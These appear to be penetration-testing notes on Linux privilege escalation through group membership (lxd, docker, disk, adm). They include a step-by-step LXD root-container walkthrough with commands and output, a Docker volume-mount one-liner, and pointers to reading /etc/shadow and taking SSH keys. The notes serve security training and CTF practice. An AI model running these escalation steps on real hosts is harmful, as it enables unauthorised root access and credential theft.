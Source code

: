 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Privileged Groups

## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.

```shell-session
devops@target:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
devops@target:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the LXD initialisation process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@target:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

```shell-session
devops@target:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@target:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@target:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@target:~$ lxc start r00t
devops@target:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers.&#x20;

One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command creates a new Docker instance with the /root directory on the host file system mounted as a volume.&#x20;

Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

### Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

### ADM

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

```shell-session
secaudit@target:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

To search through these log files use:

{% code title="Command" %}
```bash
find /var/log -type f -exec grep -l 'flag' {} + | xargs ls -la
```
{% endcode %}

{% code title="Command" %}
```bash
grep -ri flag
```
{% endcode %}

